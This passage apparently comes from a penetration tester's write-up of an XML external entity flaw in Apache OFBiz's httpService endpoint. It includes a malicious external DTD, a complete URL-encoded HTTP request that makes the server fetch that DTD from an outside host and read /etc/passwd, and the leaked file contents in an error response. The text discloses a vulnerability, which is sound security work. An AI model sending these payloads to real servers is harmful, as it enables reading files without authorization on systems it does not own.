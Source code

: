 First, it instructs the target server to retrieve a file from `http://example.com/ext.dtd`, which contains the following DTD:

```xml
<!ENTITY % trigger-error "<!ENTITY disclose SYSTEM 'file:///nonexistent/%target-file;'>">
```

Next, using the entity `trigger-error` declared in the external DTD file, the target server attempts to access a nonexistent file on its own filesystem (`file:///nonexistent/`), triggering the exception from earlier. The server will display a "File Not Found" error message, followed by the contents of the file declared in the entity `target-file`.

Here is example of the full HTTP request containing the URL-encoded payload from above:

```http
POST /webtools/control/httpService HTTP/1.1
Host: ofbiz.local:8443
Content-Type: application/x-www-form-urlencoded
Connection: close

serviceName=x&serviceContext=%3c%21%44%4f%43%54%59%50%45%20%78%20%5b%0a%3c%21%45%4e%54%49%54%59%20%25%20%72%65%71%75%65%73%74%2d%65%78%74%65%72%6e%61%6c%2d%64%74%64%20%53%59%53%54%45%4d%20%22http://example.com/ext.dtd%22%3e%0a%3c%21%45%4e%54%49%54%59%20%25%20%74%61%72%67%65%74%2d%66%69%6c%65%20%53%59%53%54%45%4d%20%22file:///etc/passwd%22%3e%0a%25%72%65%71%75%65%73%74%2d%65%78%74%65%72%6e%61%6c%2d%64%74%64%3b%0a%25%74%72%69%67%67%65%72%2d%65%72%72%6f%72%3b%0a%5d%3e%0a%3c%78%3e%26%64%69%73%63%6c%6f%73%65%3b%3c%2f%78%3e
```

The target server will respond with the following error message, disclosing the contents of `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<ofbiz-ser>
  <map-HashMap>
    <map-Entry>
      <map-Key>
        <std-String value="errorMessage"/>
      </map-Key>
      <map-Value>
        <std-String value="Error occurred deserializing context: java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash&#10;1:1daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin&#10;bin:x:2:2:bin:/bin:/usr/sbin/nologin&#10;
...
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash (No such file or directory)"/>
      </map-Value>
    </map-Entry>
  </map-HashMap>
</ofbiz-ser>
```

## A Quick Note
I was unable to exploit this vulnerability during the penetration test because a firewall was blocking outbound HTTP requests from the target server.
